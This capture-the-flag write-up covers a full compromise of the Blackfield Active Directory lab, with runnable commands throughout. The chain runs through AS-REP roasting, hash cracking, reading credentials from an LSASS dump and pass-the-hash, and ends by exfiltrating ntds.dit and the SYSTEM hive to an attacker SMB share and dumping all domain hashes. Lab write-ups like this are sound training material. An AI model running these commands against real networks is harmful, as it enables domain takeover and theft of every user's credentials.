 # Blackfield - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
```

### Domain Information
From the scan results, I identified domain information:
```
Domain: BLACKFIELD.local
Domain Controller: DC01.BLACKFIELD.local
```

### SMB Enumeration
I checked for SMB access with null and guest authentication:
```bash
crackmapexec smb 10.129.229.17 -u '' -p ''
crackmapexec smb 10.129.229.17 -u 'Guest' -p ''
```

Guest authentication revealed access to a "profiles$" share:
```bash
smbclient //10.129.229.17/profiles$ -U Guest
```

This share contained numerous directories named after potential usernames. I extracted these usernames for further attacks:
```bash
smbclient //10.129.229.17/profiles$ -U Guest -c "ls" | awk '{print $1}' > users.txt
```

## Gaining Initial Access

### AS-REP Roasting
With the user list in hand, I attempted AS-REP Roasting to identify users with Kerberos pre-authentication disabled:
```bash
GetNPUsers.py BLACKFIELD.LOCAL/ -usersfile users.txt -dc-ip 10.129.229.17 -no-pass
```

This revealed a hash for the "support" user:
```
$krb5asrep$23$support@BLACKFIELD.LOCAL:b3db2df37b67a1b8ae5639d98bacaf27$e1203eeede294e058990c0ab70ef72087b38608fbfd36cbbab4416999f92e4b84b44ec41bf4cafdaadeeb394f4183625541ebebf4ece454878392e9f98e19014528f687e6c98edc578c6c99bb35b37cd582d17b423368cf1c6e223495ab2a39158a2d34927280532c5dec7b00c01b058a2cea204e1a96c81e18cb78feef82ad51cc58a596c95b10c8ad889665a3f61b4381fc63387d52c957e2f2d7bf1178a64a3f5e4cd2a7c1513e1c26d8fe809f6693af17fad6749cd896967ff288bcf9d7202f28fb00716357fa483ec2ace48204fcdc9b002cdb32806e85fb33405e8c501dfc79734d5745cb973f798b4674c1de93e5ab9ad
```

### Password Cracking
I used Hashcat to crack the hash:
```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

This revealed valid credentials:
- **Username**: support
- **Password**: #00^BlackKnight

### BloodHound Enumeration
I used BloodHound to map the domain and identify attack paths:
```bash
bloodhound-python -c All -u support -p '#00^BlackKnight' -d BLACKFIELD.LOCAL -dc DC01.BLACKFIELD.LOCAL -ns 10.129.229.17
```

Analysis of the BloodHound data revealed that the "support" user had the ability to change passwords for the "audit2020" user.

## Lateral Movement

### Password Reset
I used the support account's privileges to reset the password for audit2020:
```bash
net rpc password "audit2020" "Dolphin1" -U "blackfield.local"/"support"%"#00^BlackKnight" -S "dc01.blackfield.local"
```

### Share Enumeration
With the new credentials, I enumerated accessible shares:
```bash
crackmapexec smb 10.129.229.17 -u 'audit2020' -p 'Dolphin1' --shares
```

This revealed several shares, including an interesting "forensic" share:
```
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
```

### Memory Dump Analysis
I connected to the forensic share and found a memory dump file:
```bash
smbclient //10.129.229.17/forensic -U 'audit2020%Dolphin1'
get lsass.DMP
```

I analyzed the memory dump using pypykatz:
```bash
pypykatz lsa minidump lsass.DMP
```

This revealed credentials for the "svc_backup" user:
- **Username**: svc_backup
- **NT Hash**: 9658d1d1dcd9250115e2205d9f48400d

## Privilege Escalation

### Windows Backup Privileges
I connected to the target using the svc_backup account with pass-the-hash:
```bash
evil-winrm -H 9658d1d1dcd9250115e2205d9f48400d -u 'svc_backup' -i 10.129.229.17
```

Through BloodHound analysis, I discovered that svc_backup was a member of the "Backup Operators" group, which has significant privileges including the ability to read any file on the system regardless of ACLs.

### Setting Up SMB Server
I set up an SMB server on my attack machine to receive the backup files:
```bash
impacket-smbserver smb . -smb2support -username smb -password pass
```

### Domain Controller Backup
On the target, I mounted my SMB share and performed a backup of the NTDS.dit file:
```powershell
net use k: \\10.10.16.42\smb /user:smb pass
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.42\smb -include:c:\windows\ntds
```

I then identified the backup version and initiated recovery:
```powershell
wbadmin get versions
echo "Y" | wbadmin start recovery -version:11/19/2024-01:15 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\ -notrestoreacl
```

### Registry Hive Extraction
I also extracted the SYSTEM registry hive:
```powershell
reg save HKLM\SYSTEM C:\system.hive
```

And copied both files back to my attack machine:
```powershell
copy C:\ntds.dit \\10.10.16.42\smb\ntds.dit
copy C:\system.hive \\10.10.16.42\smb\system.hive
```

### Extracting Domain Hashes
Using Impacket's secretsdump, I extracted all domain hashes:
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive local
```

This revealed the Administrator hash:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

### Domain Admin Access
With the Administrator hash, I performed a pass-the-hash attack to gain domain admin access:
```bash
evil-winrm -H 184fb5e5178480be64824d4cd53b99ee -u 'Administrator' -i 10.129.229.17
```

This provided full administrative access to the domain controller, successfully completing the challenge.